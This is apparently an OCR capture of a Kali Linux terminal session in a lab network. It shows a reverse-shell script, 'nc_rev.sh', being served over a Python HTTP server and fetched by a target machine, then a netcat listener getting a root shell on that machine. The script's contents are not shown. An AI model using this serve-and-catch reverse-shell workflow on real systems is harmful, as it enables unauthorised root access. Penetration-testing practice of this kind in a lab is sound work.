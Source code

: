 ^C
dominik@kali:~/Documents/repos/Metasploit-Framework/exlpoits$ python -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
^C
Keyboard interrupt received, exiting.
dominik@kali:~/Documents/repos/Metasploit-Framework/exlpoits$ mkdir nc_revshell
dominik@kali:~/Documents/repos/Metasploit-Framework/exlpoits$ nano nc_revshell/
dominik@kali:~/Documents/repos/Metasploit-Framework/exlpoits$ rmdir nc_revshell/
dominik@kali:~/Documents/repos/Metasploit-Framework/exlpoits$ touch nc_rev.sh
dominik@kali:~/Documents/repos/Metasploit-Framework/exlpoits$ nano nc_rev.sh
dominik@kali:~/Documents/repos/Metasploit-Framework/exlpoits$ python -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
192.168.56.101 - - [21/Oct/2024 11:28:51] "GET /nc_rev.sh HTTP/1.0" 200 -
^C
Keyboard interrupt received, exiting.
dominik@kali:~/Documents/repos/Metasploit-Framework/exlpoits$ nc -lvp 12345
listening on [any] 12345 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 42184
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
whoami
root
